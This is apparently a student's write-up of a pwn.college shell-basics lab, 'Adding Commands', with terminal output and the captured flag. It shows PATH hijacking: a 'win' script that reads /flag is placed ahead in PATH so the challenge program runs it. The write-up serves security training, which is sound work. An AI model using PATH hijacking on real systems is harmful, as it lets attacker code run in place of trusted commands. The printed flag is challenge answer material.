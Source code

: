 # Adding Commands

## Procedure
I started the challenge and then connected my terminal<br>
And then i tried lots of ways but didnt seem to get it to work, hence i asked copilot to help,
then i used `echo '#!/bin/bash' > win` and then used `echo 'cat /flag' >> ~/win` so that it runs 
`/flag` then i typed `chmod +x ~/win` to give executable to it, and then i used
`PATH=~/:$PATH` to append home directory to the path, then finally i used `/challenge/run` 
to get the flag.

## bash
`hacker@path~adding-commands:~$ echo '#!/bin/bash' >
ssh-entrypoint: syntax error near unexpected token newline'
hacker@path~adding-commands:~$ echo '#!/bin/bash' > win
hacker@path~adding-commands:~$ echo 'cat /flag' >> ~/win
hacker@path~adding-commands:~$ chmod +x ~/win
hacker@path~adding-commands:~$ PATH=~/:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{UwgwHeWZn6aNnIYvp_yy_2ezJT6.dZzNyUDLyIDO0czW}`

## Reference
Copilot AI
